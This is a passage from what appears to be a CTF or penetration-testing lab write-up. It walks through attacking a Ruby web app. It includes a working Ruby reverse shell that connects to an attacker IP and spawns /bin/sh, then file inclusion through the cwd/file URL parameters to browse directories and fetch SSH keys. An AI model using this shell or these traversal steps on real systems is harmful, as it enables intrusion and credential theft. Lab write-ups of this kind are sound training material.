 ![image.png](image%2010.png)

As our web server is using Ruby as its programming language I will try to upload ruby reverse shell to get a shell back:

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 80, '192.168.45.176'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

I found the shell from the following GitHub page https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325.

![image.png](image%2011.png)

I tried executing it, but instead application just downloads uploaded files. I am gonna perform Second Order File Upload to see if we can include internal files using directory traversal in the filename.

![image.png](image%2012.png)

![image.png](image%2013.png)

![image.png](image%2014.png)

It didn’t work, supposedly there is some kind of security protection against this kind of attack, but in the URL I see cwd and file paratemerns, cwd is likely stands for current working directory, and file is the file, I can try to perform File Inclusion by changing these parameters.

![image.png](image%2015.png)

![image.png](image%2016.png)

Now I see the file is downloaded. Let’s try to find private keys for `remi` user to access the target machine. When I don’t put anything in the file parameter but just provide directory to go, it shows me that directory.

![image.png](image%2017.png)

I have found `.ssh/keys` directory in which there are 4 keys and is likely for root. Let’s download them and test.

Neither of them worked for `remi` and `root`. I will generate and upload new keys.
